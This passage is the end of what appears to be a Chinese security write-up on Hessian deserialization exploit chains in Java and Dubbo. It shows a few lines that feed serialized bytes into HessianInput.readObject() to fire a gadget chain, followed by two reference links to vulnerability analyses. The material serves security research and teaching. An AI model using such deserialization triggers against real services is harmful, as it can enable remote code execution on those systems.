        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(serializedData);
        HessianInput hessianInput = new HessianInput(byteArrayInputStream);
        hessianInput.readObject();
    }
}
```

<div align=center></div>


# 参考
 - [Hessian 反序列化及相关利用链](https://paper.seebug.org/1131/)
 - [Java安全之Dubbo反序列化漏洞分析](https://www.anquanke.com/post/id/263274)